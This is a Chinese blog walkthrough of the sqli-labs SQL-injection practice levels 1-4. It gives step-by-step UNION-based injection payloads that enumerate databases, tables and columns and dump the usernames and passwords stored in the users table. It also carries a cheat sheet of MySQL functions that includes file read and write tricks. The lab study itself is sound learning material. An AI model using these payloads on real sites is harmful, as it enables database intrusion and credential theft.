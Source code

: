 ```yaml
---
layout:     post
title:      sqli-labs(1-4)
subtitle:   sqli-labs(1-4)
date:       2020-11-28
author:     YY——阳阳
header-img: img/post/2.jpg
catalog: true
tags:
    - sqli-labs
---
```


## 前言
此关卡的主要思想以及步骤如下：

**首先判断注入方式**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112231338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## less-1

#### 0x01
> 提示为字符型注入，构造payload 
> ```../?id=1' and 1=1 ```正确 
> ```../?id=1' and 1=2 ```错误
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128103812435.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
>确认存在注入点

#### 0x02
> 然后进行确认字段数，因为不知道有几个字段，所以进行尝试。构造payload ```../?id=1' order by 1,2,3,4 --+ ```，发现在4时会报错，因此字段有3个。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128104116956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

**PS：order by是mysql中对查询数据进行排序的方法，当排序所在列不存在时即会报错，因此根据回显可以判断目前有几列**
```bash
select * from user order by id asc;  对id字段进行排序
select * from user order by 1 desc;  对第一列进行排序
asc 升序排列 desc降序排列
```

#### 0x03
> 判断回显位置位于哪里，构造payload ```../?id=-1' union select 1,2,3--+```
> 因为判断出一共三列，因此判断1，2，3列的回显位置，此处id为-1，因为union联合查询后，不会多行显示，就需要先让前面的语句失效。![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112901270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=1为正确语句，所以不会回显后边的执行语句。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113012539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=-1为错误判断，因此会回显后边的执行语句，发现回显位置为2和3。

#### 0x04
> 接下来爆库，构造payload，```../?id=-1' union select 1,version(),database()--+```
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113330872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
```php
PS：常用sql注入函数
version():mysql版本，user():用户名，database():数据库名，@@datadir:读取数据库路径，@@version_compile_os:操作系统版本
concat(str1,str2,…):没有分割符地连接字符串，显示数据（数据合并）
group_concat(str1,str2,…):连接一个组的所有字符串，并以逗号分割每一条数据，显示数据
into outfile：写文件{select ‘需要写的文件’ into outfile ‘目录下’}，select ‘123123’ into outfile ‘d://study/1.txt’;(将123123添加至d盘study中新建1.txt文件中)
group_concat(列名):会把这一列中所有的内容在一行中以,隔开输出
select load_file(读文件路径)；
length() =>计算字符串长度
hex() =>字符转换为16进制
@@basedir MYSQL获取安装路径
```
>查看所有数据库，payload```../?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata,3 --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114357420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70
)![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112811442066.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x05
>查询security内的所有表名，构造payload```../?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114654322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x06
> 查看users里的字段，构造payload```../?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users'--+```
> 我们发现了username和password，然后将其进行注入出来
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114947405.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x07
>查询所有的用户名和密码，构造payload```.../?id=-1' union select 1,group_concat(username),group_concat(password) from users --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128115706646.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

PS：GROUP_CONCAT函数返回一个字符串结果，该结果由分组中的值连接组合而成。
CONCAT（）函数用于将多个字符串连接成一个字符串。
concat_ws()  将多个字符串连接成一个字符串,可以一次性指定分隔符

## less-2
基于报错的数字型GET注入，这个由于是数字型的，所以闭合的时候不用单引号了。
检查是否存在注入，发现存在注入
```?id=1=1```正确
```?id=1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128120459894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
整数型注入和字符型注入在于构造的id不同，整数型注入id=-1，下面构造payload

```bash
?id=-1 order by 1,2,3,4,5--+ //判断列数
?id=-1 union select 1,2,3--+ //判断回显位置
?id=-1 union select 1,user(),database()--+ //爆库
?id=-1 union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1 union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1 union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```

## less-3
基于’)的字符型注入，判断是否存在注入
```id=1') and 1=1```正确
```id=1') and 1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128123046820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1') order by 1,2,3,4,5--+ //判断列数
?id=-1') union select 1,2,3--+ //判断回显位置
?id=-1') union select 1,user(),database()--+ //爆库
?id=-1') union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1') union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1') union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```
## less-4
基于")字符型注入，判断是否存在注入
```id=1“) and 1=1```正确
```id=1”) and 1=2```错误![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128124840306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1") order by 1,2,3,4,5--+ //判断列数
?id=-1") union select 1,2,3--+ //判断回显位置
?id=-1") union select 1,user(),database()--+ //爆库
?id=-1") union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1") union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1") union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```